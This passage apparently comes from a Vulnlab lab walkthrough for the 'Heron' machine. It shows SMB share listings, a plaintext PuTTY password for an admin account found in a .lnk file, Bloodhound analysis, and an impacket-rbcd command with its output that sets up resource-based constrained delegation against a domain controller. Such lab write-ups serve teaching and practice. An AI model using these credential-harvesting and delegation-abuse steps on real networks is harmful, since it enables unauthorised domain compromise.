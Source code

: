 ```
smb: \Julian.Pratt\> ls
  .                                   D        0  Sun Jun  2 06:47:14 2024
  ..                                  D        0  Sat Jun  1 11:10:46 2024
  frajmp.lnk                          A     1443  Sun Jun  2 06:47:47 2024
  Is there a way to -auto login- in PuTTY with a password- - Super User.url      A      117  Sat Jun  1 11:44:44 2024
  Microsoft Edge.lnk                  A     2312  Sat Jun  1 11:44:38 2024
  mucjmp.lnk                          A     1441  Sun Jun  2 06:47:33 2024
```

It seems that this contains a multitude of `lnk` files that we can pull from this share. We'll use `mget *` to read these on our local machine.

`frajmp.lnk` seems to be partially unreadable, however it contains the plaintext password for `_local` and `Julian.Pratt` that we already have. `Microsoft Edge.lnk` also does not seem to have anything of use to us, containing some directory calls to the Edge application.

The part of use to us seems to be within `mucjmp.lnk`, which seems to contain the plaintext password for `adm_prju` amongst some unreadable text.

```
└─$ cat mucjmp.lnk                                                                 
2t▒`��ف+B�� �gP�O� �:i�+00�/C:\�1�X�sPROGRA~1t  ﾨR�B�X�s.BJz
AProgram Files@shell32.dll,-21781▒P1�X�[PuTTY<  ﾺX�[�X�[.���PuTTY\2 ��X�� putty.exeD    ﾆX���X�[.putty.exe▒O-N�h�ZC:\Program Files\PuTTY\putty.exe#..\..\Program Files\PuTTY\putty.exeC:\Program Files\PuTTY$adm_prju@mucjmp -pw [...snip...]�&�
```

# RBCD to MUCDC

If we look at `adm_prju`'s domain node in Bloodhound, we can see that they possess an interesting outbound access control.

![](/images/vulnlab/heron-vl/j.png)

It seems that since `adm_prju` is within the `ADMINS_T1` group, they have the `WriteAccountRestrictions` privilege over the domain controller.

Having `WriteAccountRestrictions` means that `adm_prju` has write access to all of the attributes on the machine, notably `msDS-AllowedToActOnBehalfOfOtherIdentity`. If we have the ability to modify this attribute, this means we can abuse resource-based constrained delegation.

For a small note on what resource-based constrained delegation is, it essentially allows us to request a service ticket for a specified service name to which will be impersonated by a user of our selection. We can then import this service ticket to use for either authentication or credential dumping, depending on the user we impersonate.

The process for this is relatively simple, as Bloodhound outlines our attach flow in their help page for this specific attack. Note that this requires the user to have control of a machine that has an SPN set, which we currently do since we have control over `FRAJMP` and it's NT hash (meaning we'll just need to PTH with the `FRAJMP$` NT hash in our commands instead of a password).

So to start let's ensure that `FRAJMP$` can delegate on behalf of `MUCDC$`.

```
└─$ proxychains4 impacket-rbcd -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$' -action 'write' 'heron.vl/adm_prju:(ADM_PRJU PASSWORD)'
......
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  heron.vl:389  ...  OK
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FRAJMP$ can now impersonate users on MUCDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FRAJMP$      (S-1-5-21-1568358163-2901064146-3316491674-27101)
```
